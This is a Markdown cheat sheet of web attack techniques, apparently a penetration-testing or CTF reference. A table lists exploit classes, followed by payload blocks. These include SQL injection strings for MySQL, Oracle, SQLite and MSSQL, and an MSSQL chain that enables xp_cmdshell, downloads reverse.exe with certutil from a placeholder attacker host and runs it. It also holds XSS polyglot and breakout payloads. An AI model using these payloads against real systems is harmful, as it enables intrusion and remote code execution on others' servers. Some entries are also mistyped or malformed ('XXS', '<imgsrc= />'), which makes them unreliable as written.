 # UltraWeb-Manuals-Methods

```



```

| Web Exploits    | Strategy                                                                               | Tools                                  | Technique                                              |
| --------------- | -------------------------------------------------------------------------------------- | -------------------------------------- | ------------------------------------------------------ |
| SQLi            | Database enumeration -> Column number -> Determine Output layout ->  Objectives - WiRE | `ffuf`, `burpsuite`                    | `admin' 1 or 1=1 -- - ... '1'=1`                       |
| cmd injection   | Strategy                                                                               | `para?;` `/cgi-bin`                    |                                                        |
| XXS             | Strategy                                                                               | burpsuite                              | `<imgsrc= />` ... polyglots                            |
| SSTI            | Strategy                                                                               | `{{7*7}} -> Confirm backend`           |                                                        |
| Path traversal  | Strategy                                                                               |                                        |                                                        |
| LFI             | Strategy                                                                               | ....// ../../ url encoding             |                                                        |
| upload vulns    | Strategy                                                                               | hexedit, burpsuite                     | .ext, content-type, mime-type, magic numbers, filesize |
| IDOR            | Strategy                                                                               | id=1 -> id=0                           |                                                        |
| CSRF            | User interaction required!                                                             |                                        |                                                        |
| SSRF            | Strategy                                                                               |                                        | 127.0.0.1, yourIP, OtherIPs                            |
| deserialization | Strategy                                                                               | firefox console, cookie manager plugin | jwt deserialization, idor, ysoserial                   |


#### CMDi

```bash
#  `param?=;` `/cgi-bin`

<symbol><maybewhitespace><cmd>

```

#### SQLi

```sql

--MySQL
'version(),'
--MySQL and MSSQL
',INPUT=@@version,INPUT='
--  Oracle
',INPUT=(SELECT banner FROM v$version),email='
-- For SQLite
',INPUT=sqlite_version(),INPUT='
-- Old classics
' or 1=1 -- -
user=admin&pass=' OR '1'='1'


-- MSSQL 
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --

'; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --

'; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```

#### SSTI

```python
{{7*7}} # -> Confirm backend
```


#### Upload Vulns

```bash
# hexedit, burpsuite, cyberchef 
# .ext, content-type, mime-type, magic numbers, filesize
```

#### XXS 

Filtering of characters
```javascript
< > ' " { } ;

// imgsrc is mostly never blocked
<imgsrc= />

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Hacked') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Havked')//>\x3e

\%22})))}catch(e)alert(document.domain);}//
"];)catch(e)()if(!self.a)self.a=!alert(document.domain);//
"a")(((type:"ready")));)catch(e)alert(1))//
```

